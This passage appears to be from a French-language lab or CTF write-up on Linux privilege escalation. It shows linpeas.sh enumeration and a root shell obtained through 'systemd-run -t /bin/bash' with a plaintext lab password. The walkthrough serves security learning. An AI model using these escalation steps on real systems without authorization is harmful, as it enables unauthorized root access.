       2. Lui donner les droit tu devras (bah oui, sinon tu peux pas l'exécuter...)

```bash
eguillemot@artemis:~$ chmod +x linpeas.sh
```

      3. Les miracles tu obtiendras

Il est important de préciser que pour des raisons de facilité, j'ai capturé uniquement ce qui nous intéresse parce que mon dieu ce qu'il est long le résultat !

```bash
eguillemot@artemis:~$ ./linpeas.sh -a > linpeas.txt
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/726c65c7-fd0a-4ed6-8eb4-4093e13a5d8f/2021-03-25-17-43-35.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/726c65c7-fd0a-4ed6-8eb4-4093e13a5d8f/2021-03-25-17-43-35.png)

La légende est ici très importante, c'est ce qui nous évitera de lire l'entièreté du fichier. Par conséquent, on s'attardera uniquement au lignes correspondant au **`RED/YELLOW`**

Une première ligne attire l'attention :

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cb409609-3e0a-4858-ace8-f77a17c4cac2/2021-03-25-17-45-59.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cb409609-3e0a-4858-ace8-f77a17c4cac2/2021-03-25-17-45-59.png)

Il y aurait une "vulnérabilité" sur le ***sudo*** ?

Pour plus d'informations, il faut se rendre sur le petit lien orange [https://book.hacktricks.xyz/linux-unix/privilege-escalation#users](https://book.hacktricks.xyz/linux-unix/privilege-escalation#users) qui contient un paragraphe intéressant que voici :

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c170f7ba-3c16-45da-ab8f-8c46de4e2e2d/2021-03-25-17-46-58.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c170f7ba-3c16-45da-ab8f-8c46de4e2e2d/2021-03-25-17-46-58.png)

Sur un malentendu ça marche, testons !

```bash
eguillemot@artemis:~$ systemd-run -t /bin/bash
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to manage system services or other units.                                                
Authenticating as: Erwan Guillemot,,, (eguillemot)
Password: esgi
==== AUTHENTICATION COMPLETE ===
Running as unit: run-u726.service                                                                                   
Press ^] three times within 1s to disconnect TTY.
root@artemis:/#
```

TADA. 

[http://gph.is/2AmePHo](http://gph.is/2AmePHo)

Mais encore une fois c'était pas la bonne méthode...

Si on reprends le fichier `linpeas.txt`, il y a une autre ligne qui pourrait nous être utile

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/227fab6c-8c7b-4eb7-83d1-535cb22d0802/2021-03-25-23-25-27.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/227fab6c-8c7b-4eb7-83d1-535cb22d0802/2021-03-25-23-25-27.png)
